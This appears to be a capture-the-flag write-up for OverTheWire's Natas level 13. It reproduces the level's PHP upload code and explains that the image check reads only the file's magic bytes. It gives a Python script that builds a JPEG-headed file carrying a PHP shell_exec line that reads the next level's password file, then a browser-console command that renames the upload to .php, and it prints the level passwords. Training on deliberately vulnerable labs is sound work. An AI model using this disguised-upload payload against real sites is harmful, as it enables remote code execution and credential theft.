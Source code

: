 # Natas Level 12 → Level 13 Fake image file signature

## Previous Flag
<b>trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC</b>

## Goal
Username: natas13<br>
URL: http://natas13.natas.labs.overthewire.org<br>

For security reasons, we now only accept image files!<br>
Choose a JPEG to upload (max 1KB):<br>
Choose File     No File Chosen<br>
Upload File

## What I learned
```
exif_imagetype() not check file extension only actual binary content (magic bytes) of file
Bypasses:
    Upload a valid image file with PHP code embedded after the image data
    Ensure the header bytes look like a JPEG or PNG
    Rename it to .php (if allowed) or something like .php.jpg
    Trigger the PHP execution by accessing the uploaded file directly
```
<br>

| Magic Bytes       | File Type                        | Description                                     |
|-------------------|----------------------------------|-------------------------------------------------|
| <b>FF D8 FF E0</b>| JPEG (JFIF)                      | JPEG image with JFIF metadata                   |
| FF D8 FF E1       | JPEG (Exif)                      | JPEG image with EXIF metadata                   |
| FF D8 FF DB       | JPEG                             | JPEG with quantization table                    |
| FF D9             | JPEG                             | End of Image (EOI) marker                       |
| 89 50 4E 47 0D 0A 1A 0A | PNG                        | PNG image                                       |
| 47 49 46 38 37 61 | GIF87a                           | GIF image (older format)                        |
| 47 49 46 38 39 61 | GIF89a                           | GIF image (newer format)                        |
| 42 4D             | BMP                              | Bitmap image (BMP)                              |
| 25 50 44 46       | PDF                              | PDF file                                        |
| 50 4B 03 04       | ZIP / DOCX / PPTX / XLSX         | ZIP archive or MS Office Open XML formats       |
| 52 61 72 21 1A 07 00 | RAR                           | RAR archive (v1.5+)                             |
| 7F 45 4C 46       | ELF                              | Executable and Linkable Format (Linux binary)   |
| 4D 5A             | EXE / DLL                        | Windows Executable (MZ header)                  |
| 3C 3F 70 68 70    | PHP                              | PHP script starting with `<?php`                |
| EF BB BF          | UTF-8 BOM                        | Byte Order Mark for UTF-8 encoded files         |
| D0 CF 11 E0 A1 B1 1A E1 | DOC / XLS / PPT            | Older MS Office binary formats                  |
| 00 61 73 6D       | WASM                             | WebAssembly binary                              |

## Solution
```
Click View source code
http://natas13.natas.labs.overthewire.org/index-source.html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 👀
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Create new .png name test.png

# Fake an image file signature
#!/bin/python

with open("test.php", "wb") as f:
    # Write JPEG header bytes
    f.write(b'\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00')
    # Write PHP code
    f.write(b'<?php echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
    # Write JPEG EOI marker
    f.write(b'\xFF\xD9')

# Open in Notepad++
ÿØÿàshell_exec("cat /etc/natas_webpass/natas14");

# Open in hexdump
@trungdullc ➜ /workspaces/01noobHacker (main) $ hexdump static/test.png
0000000 d8ff e0ff 6873 6c65 5f6c 7865 6365 2228
0000010 6163 2074 652f 6374 6e2f 7461 7361 775f
0000020 6265 6170 7373 6e2f 7461 7361 3431 2922
0000030 003b                                   
0000031

# Modify hidden input field in browser’s javascript console
$('input[name="filename"]').val("test.php") ⌨️

# Upload payload (test.png)
The file upload/hrpcjtt3z1.php has been uploaded
����.JFIF....z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ �� 🔐
```

## Flag
<b>z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ</b>

## Continue
[Continue](/overthewire/Natas1314.md)